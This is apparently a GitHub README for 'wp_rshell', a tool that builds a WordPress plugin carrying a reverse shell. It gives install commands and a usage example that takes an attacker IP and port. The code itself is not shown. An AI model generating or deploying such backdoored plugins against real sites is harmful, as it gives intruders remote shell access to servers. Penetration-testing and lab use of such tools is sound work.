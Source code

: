 # WordPress revrese shell Plugin Generator

## Installation
```
git clone http://github.com/root-tanishq/wp_rshell
```
```
cd wp_rshell
```
```
python3 wp_rshell.py
```

## Tool Usage

Usage = `python3 wp_rshell.py [IP] [PORT] [FILE NAME]`
FILE NAME = Plese dont provide extension

Example:-
    `# python3 wp_rshell.py 10.10.11.100 4455 payload`

